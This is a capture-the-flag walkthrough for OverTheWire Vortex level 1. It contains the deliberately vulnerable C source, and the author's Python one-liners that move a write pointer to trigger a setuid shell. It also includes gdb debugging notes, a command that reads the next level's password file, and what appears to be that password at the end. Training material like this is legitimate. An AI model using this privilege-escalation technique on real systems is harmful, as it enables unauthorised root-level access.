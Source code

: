 Challenge URL is <a href="http://www.overthewire.org/wargames/vortex/vortex1.shtml">HERE</a>

<<<CHALLENGE_CONTENT
Level 1

Canary Values
We are looking for a specific value in ptr. You may need to consider how bash handles EOF..
Reading Material
Smashing the Stack for Fun and Profit
Code listing (vortex1.c)
<pre>
 1 #include <stdlib.h>
 2 #include <unistd.h>
 3 #include <string.h>
 4 #include <stdio.h>
 5 
 6 
 7 #define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
 8 
 9 void print(unsigned char *buf, int len)
10 {
11         int i;
12 
13         printf("[ ");
14         for(i=0; i < len; i++) printf("%x ", buf[i]); 
15         printf(" ]\n");
16 }
17 
18 int main()
19 {
20         unsigned char buf[512];
21         unsigned char *ptr = buf + (sizeof(buf)/2);
22         unsigned int x;
23 
24         while((x = getchar()) != EOF) {
25                 switch(x) {
26                         case '\n': print(buf, sizeof(buf)); continue; break;
27                         case '\\': ptr--; break; 
28                         default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
29                 }
30         }
31         printf("All done\n");
32 }
</pre>

CHALLENGE_CONTENT

Comment by me:

ESP --> 0xffffd520
ptr = 0x18(ESP) = 0xffffd538 --> 0xffffd63c
buffer = 0x1c(ESP) = 0xffffd53c

1. we can only write where ptr is pointing at (initially at 0xffffd63c)
2. ptr is located at $ESP+0x18 (from gdb), 
	ESP initially is at 0xffffd520
	ESP+0x18 = ESP+24 = 0xffffd538
3. So, we have to move the writing pointer to write at $ESP+0x18 located.
4. To move the writing pointer, from the program:
	type '\' : ptr--
	type other: ptr++
5. Therefore, moving the writing pointer back (0xffffd63c - 0xffffd538) = 260 
	Which means, type '\' * 260 times, then type '\xCA'
6. But when comparison, the program only check 'ptr' against 0xCA000000, which is the last byte of the 'ptr' pointer, so we only need to type '\' * 257 times then type '\xCA'. Let the '\xCA' saved, then put another character of anything to trigger the e() method again.
7. we can input into the program in another 2 ways(rather than type it in). We can use PIPE or REDIRECT, for example:
	using PIPE method : python -c 'print "\\"*257 +"\xCA"+"a"' | /vortex/vortex1
	or
	using REDIRECT method, by write to a file first, then redirect : 
		python -c 'print "\\"*257 +"\xCA"+"a"' > /tmp/anidear_vt1;
		/vortex/vortex1 < /tmp/anidear_vt1
8. Then comes the problem of EOF, either of the method will result in sending EOF(end-of-file) to the new spawn process(/bin/sh), which results in closing the shell.
9. by using 'cat' command to re-open the STDIN (for us to type in commands), after finish sending the exploit. So, we can:
	with PIPE method : 
		(python -c 'print "\\"*257 +"\xCA"+"a"'; cat) | /vortex/vortex1
	or
	with file method :
		(cat /tmp/anidear_vt1; cat) | /vortex/vortex1
		or
		(cat /tmp/anidear_vt1 - ) | /vortex/vortex1

10. After getting a shell, just 'cat /etc/vortex_pass/vortex2'. The password for next level is there.


OTHER WORK:
	- to compile code: gcc -o vortex1 -m32 -fno-stack-protector -Wl,-z,norelro vortex1.c

	- DEBUGGING
		- gdb /vortex/vortex1  		<<< To debug the process
		- disas						<<< (disassemble) show diassembly code of the process
		- b *0x080485b7				<<< (breakpoint) set breakpoint at 0x080485b7 (after mov    0x18(%esp),%eax) to read value in $eax, which is now the value of 'ptr'
		- r 						<<< (run) to run the process from start
		- r < /tmp/anidear_vt1		<<< (run) to run the process with arguments
		- x/x $eax					<<< view value in $eax
		- set $eax=0xca000000 		<<< set value in $eax to 0xCA000000
		- n 						<<< (next) run until exit the function
		- ni 						<<< (next instruction), step over
		- delete breakpoints		<<< delete all breakpoints
		- set inferior-tty /dev/pts/1 <<< enable STDIN for the child process
		- c 						<<< continue executions, runs
		- s   or   si				<<< (step) run next instruction, step into
		- start 					<<< just start the process, but not run

	- Conclusion with gdb debugging
		- easy to navigate and override the process flow. I can set any register to be anything as I want. 
		- the flaw is, when 'gdb' starts, it starts with our EUID (which is vortex1). When it spawn /vortex/vortex1 afterward, the process also has EUID=vortex1, which leads to /bin/sh to get the same EUID as vortex1 too.

0x080485b3 <+92>:	mov    0x18(%esp),%eax	<<<<<< where it reads from 'ptr'
0x080485b7 <+96>:	and    $0xff000000,%eax
0x080485bc <+101>:	cmp    $0xca000000,%eax		<<<<<< change to eax to 0xca000000
0x080485c1 <+106>:	jne    0x8048602 <main+171> 	
0x080485c3 <+108>:	call   0x8048440 <geteuid@plt>
0x080485c8 <+113>:	mov    %eax,%esi
0x080485ca <+115>:	call   0x8048440 <geteuid@plt>
0x080485cf <+120>:	mov    %eax,%ebx
0x080485d1 <+122>:	call   0x8048440 <geteuid@plt>

	23anbT\rE
